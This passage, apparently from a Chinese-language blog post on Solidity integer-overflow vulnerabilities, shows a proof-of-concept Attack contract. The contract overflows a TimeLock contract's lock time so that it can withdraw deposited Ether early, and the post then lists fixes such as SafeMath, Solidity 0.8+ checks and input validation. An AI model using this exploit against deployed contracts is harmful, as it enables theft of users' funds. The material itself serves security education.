 ```cpp
        require(sent, "Failed to send Ether");
    }
}
```

#### POC合约

```cpp
contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    receive() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        timeLock.increaseLockTime(type(uint256).max + 1 - timeLock.lockTime(address(this)));
        timeLock.withdraw();
    }
}
```

攻击调用栈：

![Untitled](/images/posts/blockchain/overflow_3.png)

### 漏洞修复方案

以下是一些避免Solidity中整型溢出漏洞的方法：

#### 使用安全的算术库

可以使用开源的Solidity算术库，例如SafeMath库，来避免整型溢出问题。SafeMath库提供了一些安全的算术运算函数，例如加法、减法、乘法和除法，这些函数会检查运算结果是否超出整型范围，并在必要时抛出异常，避免整型溢出问题。

#### 使用 Solidity 0.8.0 之后的版本

其内置了 Safemath，因此几乎不存在这类问题。

#### 慎用 unchecked

因为在 unchecked 修饰的代码块里面是不会对参数进行溢出检查的。

#### 使用更大的数据类型

可以使用更大的数据类型来避免整型溢出问题。例如，使用uint256代替uint8可以避免很多整型溢出的问题。但是，使用更大的数据类型还会增加存储和计算的成本，因此需要根据具体情况进行权衡。

#### 检查输入参数

对于传入合约的参数，应该进行合理的检查和验证，确保输入参数在合理范围内，避免因为不合法的输入参数导致整型溢出问题。例如，对于一个接收uint8类型参数的函数，应该检查参数是否在0到255之间。

#### 谨慎处理边界情况
